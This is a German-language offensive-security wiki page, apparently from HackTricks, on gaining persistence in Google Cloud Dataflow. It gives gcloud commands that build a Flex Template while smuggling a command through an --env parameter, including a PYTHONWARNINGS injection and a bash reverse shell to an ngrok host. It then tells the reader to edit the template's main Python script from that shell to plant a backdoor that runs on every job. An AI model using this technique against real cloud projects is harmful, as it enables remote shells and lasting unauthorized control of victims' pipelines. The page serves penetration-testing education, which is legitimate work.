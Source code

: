 # GCP - Dataflow Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Dataflow

### Unsichtbare Persistenz im erstellten Container

Folgend dem [**Tutorial aus der Dokumentation**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) können Sie eine neue (z.B. Python) Flex-Vorlage erstellen:
```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
--repository-format=docker \
--location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
--image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
--sdk-language "PYTHON" \
--flex-template-base-image "PYTHON3" \
--metadata-file "metadata.json" \
--py-path "." \
--env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
--env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
--env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
--env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
--region=us-central1
```
**Während es gebaut wird, erhalten Sie eine Reverse-Shell** (Sie könnten Umgebungsvariablen wie im vorherigen Beispiel oder andere Parameter missbrauchen, die die Docker-Datei festlegen, um beliebige Dinge auszuführen). In diesem Moment ist es innerhalb der Reverse-Shell möglich, **in das Verzeichnis `/template` zu gehen und den Code des Haupt-Python-Skripts zu ändern, das ausgeführt wird (in unserem Beispiel ist dies `getting_started.py`)**. Setzen Sie hier Ihre Hintertür, damit sie jedes Mal ausgeführt wird, wenn der Job ausgeführt wird.

Dann wird beim nächsten Mal, wenn der Job ausgeführt wird, der kompromittierte Container ausgeführt:
```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
--template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
--parameters=output="gs://$REPOSITORY/out" \
--region=us-central1
```
{{#include ../../../banners/hacktricks-training.md}}
